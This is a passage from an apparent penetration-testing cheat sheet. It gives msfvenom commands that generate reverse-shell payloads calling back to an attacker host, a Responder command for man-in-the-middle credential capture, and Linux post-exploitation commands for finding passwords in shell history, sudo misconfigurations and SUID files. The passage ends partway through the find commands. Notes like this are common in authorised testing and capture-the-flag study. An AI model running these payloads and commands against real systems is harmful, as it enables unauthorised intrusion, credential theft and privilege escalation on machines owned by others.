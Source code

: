     [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)

    [Cipher Identifier (online tool) | Boxentriq](https://www.boxentriq.com/code-breaking/cipher-identifier)

- msfvenom(kali) - tool to create malware

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=10.10.10.14 LPORT=4444 -f aspx > ex.aspx

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    ```

- [responder (imapcket)](https://www.notion.so/responder-imapcket-b7bdbbb91ce74e98834dd88ec1715528) - MITM - listening in the background and wait for a failed dns request

    ```bash
    responder -I eth0 -rdwv #Run Responder.py for the length of the engagement while you're working on other attack vectors.
    ```

Post Exploitation
------------------------------------------------------------

Useful commands running locally on the Linux system To quickly analyze the system and possibly help to escalate privileges
------------------------------------------------------------

- whoami - shows the user we logged in with
- history - show last history, it usually can show any password or personal stuff the user execute
- sudo -l - show what programs we can run without sudo, check all process against [GTFOBins](https://gtfobins.github.io/)
    - if we get `(ALL, !root) /bin/bash`, we can exploit with [this](https://www.exploit-db.com/exploits/47502)
- uname -a - will show us the linux version so we can search for a script that will escalate privileges
- export - check system variables
- processes

    ```bash
    ps -ef
    ps auxf
    ps auxfww
    ```

- find in files

    ```bash
    find . -name "*.java" -type f -exec fgrep -iHn "textToFind" {} \;
    find . -regex ".*\.\(c\|java\)" -type f -exec fgrep -iHn "textToFind" {} \;
    find / -maxdepth 4 -name *.conf -type f -exec grep -Hn "textToFind" {} \; 2>/dev/null
    # SUID files owned by root
    find / -uid 0 -perm -4000 -type f 2>/dev/null
    # SUID files owned by root and world readable
    find / -uid 0 -perm -u=s,o=r -type f -exec ls -la {} \; 2> /dev/null
    # SUID files
    find / -perm -4000 -type f 2>/dev/null
    # world writable directories
    find / -perm -2 -type d 2>/dev/null
